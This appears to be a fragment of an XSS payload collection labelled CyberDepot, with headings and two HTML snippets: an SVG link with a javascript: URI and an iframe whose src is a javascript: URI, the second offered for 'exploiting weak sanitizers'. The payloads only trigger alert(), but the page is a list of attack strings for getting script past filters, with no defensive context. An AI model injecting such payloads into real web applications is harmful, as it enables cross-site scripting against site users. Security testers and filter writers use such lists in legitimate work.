 # Using Angle Brackets

```html
<svg><a xlink:href="javascript:alert(1)">&lt;click&gt;</a></svg>
```

# Exploiting Weak Sanitizers

```html
<div><iframe src="javascript:alert('XSS')"></iframe></div>
```

---

*This XSS Payload Collection is part of CyberDepot, maintained by #AfterDark.*
